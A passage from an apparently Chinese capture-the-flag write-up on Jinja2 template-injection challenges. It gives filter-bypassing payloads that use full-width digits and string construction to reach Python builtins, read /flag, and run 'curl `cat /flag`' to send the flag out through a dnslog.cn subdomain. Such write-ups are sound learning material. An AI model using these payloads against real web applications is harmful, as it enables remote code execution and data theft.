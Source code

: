 >      else:  
>          pass  
>      full += ch  
>  return full  
> t=''
> s="0123456789"
> for i in s:
>  t+='\''+half2full(i)+'\','
> print(t)
> 
> ```
>
> 

用unicode字符替换：

```jinja2
{% set a=(config|string|list).pop(𝟳𝟰)%}
{% set glob=(a,a,dict(globals=a)|join,a,a)|join() %}
{% set bult=(a,a,dict(builtins=a)|join,a,a)|join() %}
{% set b=(lipsum|attr(glob)).get(bult) %}
{% set chr=b.chr %}
{% print b.open(chr(𝟰𝟳)~chr(𝟭𝟬𝟮)~chr(𝟭𝟬𝟴)~chr(𝟵𝟳)~chr(𝟭𝟬𝟯)).read() %}
```

或者麻烦一些构造，这里偷懒就不演示了--

```
((not{})|int,(not{})|int)|sum # 2
(config|string|list).index(x) # 2
{% set one=(dict(c=z)|join|length) %} # 1
{% set two=(dict(cc=z)|join|count) %} # 2，length、count都可以
```

## 371-过滤print

这里把print过滤掉了，本来想curl反弹shell的，但是搞了好久自己的z主机都不行，最后借[DNSLog Platform](http://dnslog.cn/)带出来了

```bash
curl `cat /flag`.aorcwf.dnslog.cn
```

```jinja2
{% set xh=(config|string|list).pop(𝟳𝟰) %}
{% set kg=(()|select|string|list).pop(𝟭𝟬) %}
{% set point=(config|string|list).pop(𝟭𝟵𝟭) %}
{% set mh=(config|string|list).pop(𝟭𝟰) %}
{% set xg=(config|string|list).pop(-𝟲𝟰) %}
{% set glob=(xh,xh,dict(globals=a)|join,xh,xh)|join() %}
{% set fxg=((lipsum|attr(glob))|string|list).pop(𝟲𝟰𝟯) %}
{% set geti=(xh,xh,dict(getitem=a)|join,xh,xh)|join() %}
{% set ox=dict(o=z,s=z)|join %}
{% set payload=(dict(curl=a)|join,kg,fxg,dict(cat=a)|join,kg,xg,dict(flag=a)|join,fxg,point,dict(aorcwf=a)|join,point,dict(dnslog=a)|join,point,dict(cn=a)|join)|join %}
{%if ((lipsum|attr(glob))|attr(geti)(ox)).popen(payload)%}na𝟬h{%endif%}
```

## 372-过滤count

用上题的payload依然可行，看师傅们的wp说是过滤了count，改用length即可，因为我这里用的是全角数字，也绕过去了

